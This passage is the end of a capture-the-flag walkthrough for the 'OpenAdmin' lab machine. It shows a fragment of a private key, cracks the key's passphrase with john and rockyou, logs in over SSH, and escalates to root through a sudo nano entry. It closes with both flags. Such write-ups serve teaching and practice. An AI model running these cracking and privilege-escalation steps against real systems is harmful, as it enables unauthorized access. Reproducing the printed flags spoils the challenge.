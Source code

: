 ```
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```

- Now we can use SSH to login as `joanna`, however it requires a passphrase
- Let's use john again to crack it

```bash
$ ssh2john joanna_id_rsa > joanna.hash
$ john joanna.hash -w=/usr/share/wordlists/rockyou.txt
...
bloodninjas      (joanna_id_rsa)
...
```

- Now we can use SSH to login as joanna

```bash
$ ssh joanna@{IP} -i joanna_id_rsa
Enter Passphrase: bloodninjas

joanna@openadmin:~$ cat user.txt
ebdc34f11f2cb725b7808ce895931056

joanna@openadmin:~$ sudo -l
...
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv

joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

- Inside the nano editor press `SHIFT+R` and enter `/root/root.txt`

---

## FLAGS

USER: ebdc34f11f2cb725b7808ce895931056

ROOT: b69ec7ebf447a7ba28b1313d2ff3640e